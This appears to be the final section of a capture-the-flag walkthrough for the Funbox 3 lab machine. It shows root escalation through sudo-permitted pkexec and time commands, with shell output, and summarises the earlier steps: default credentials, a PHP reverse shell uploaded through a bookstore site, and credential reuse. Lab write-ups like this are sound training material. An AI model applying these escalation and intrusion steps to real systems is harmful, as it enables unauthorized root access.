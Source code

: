 And you can escalate privileges to root using either **pkexec** or **time**.

<br>

## Root

**pkexec** escalation method:

`sudo /usr/bin/pkexec /bin/bash`

```bash
tony@funbox3:~$ sudo /usr/bin/pkexec /bin/bash
root@funbox3:~# whoami
root
root@funbox3:~# hostname
funbox3
root@funbox3:~#
```

**time** escalation method:

`sudo /usr/bin/time /bin/bash`

```bash
tony@funbox3:~$ sudo /usr/bin/time /bin/bash
root@funbox3:~# whoami
root
root@funbox3:~# hostname
funbox3
root@funbox3:~#
```

The **.smile.sh** script that showed up under `sudo -l` for **tony** doesn't exist.

Checking for our flag:

`wc -c /root/proof.txt`

```bash
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/funboxeasy14.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration using **nmap** and **gobuster**
- Manually enumerating several different websites hosted on the server
- Finding default **admin** credentials and logging into the bookstore with them
- Creating a new book in the bookstore with a **php reverse shell** attached to it and using that to gain an initial foothold on the system
- Finding a user created **password.txt** file with login credentials in it and laterally moving to that user
- The new user had several entries in **sudo -l** and we were able to escalate our privileges to root using either **time** or **pkexec**

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
